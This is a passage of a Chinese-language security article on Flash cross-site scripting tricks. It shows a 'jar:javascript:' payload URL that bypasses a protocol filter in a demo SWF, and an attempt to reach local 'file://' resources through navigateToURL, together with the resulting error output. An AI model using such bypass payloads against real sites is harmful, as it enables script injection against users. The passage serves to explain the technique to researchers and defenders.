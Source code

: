 我们就可以使用先前提到的方法来绕过这个检测：

![2014021816525218614_png.jpg](img/img2_u107_jpg.jpg)

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:javascript:alert(1);// 
```

当然还有一个我认为是广为熟知的技巧,就是在 firefox 里使用 data URI。

## 0x04 使用“navigateToURL”来突破本地域的访问限制

* * *

在默认设置当中 flash 不会允许你去访问一些比较敏感的协议(通过 navigateToURL), 如:“File://” 或 “Ms-its:” 如果你直接尝试访问下面的链接:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=file://c:\ 
```

你就会收到这样的错误信息:

```
SecurityError: Error #2148: SWF file http://0me.me/demo/xss/flash/link\_protocol\_test.swf?input=file://c:\ cannot access local resource file://c:\. Only local-with-filesystem and trusted local SWF files may access local resources. 
at global/flash.net::navigateToURL() 
at MethodInfo-1() 
at flash.events::EventDispatcher/dispatchEventFunction() 
at flash.events::EventDispatcher/dispatchEvent() 
at com.powerflasher.SampleApp::link\_protocol\_test() 
```

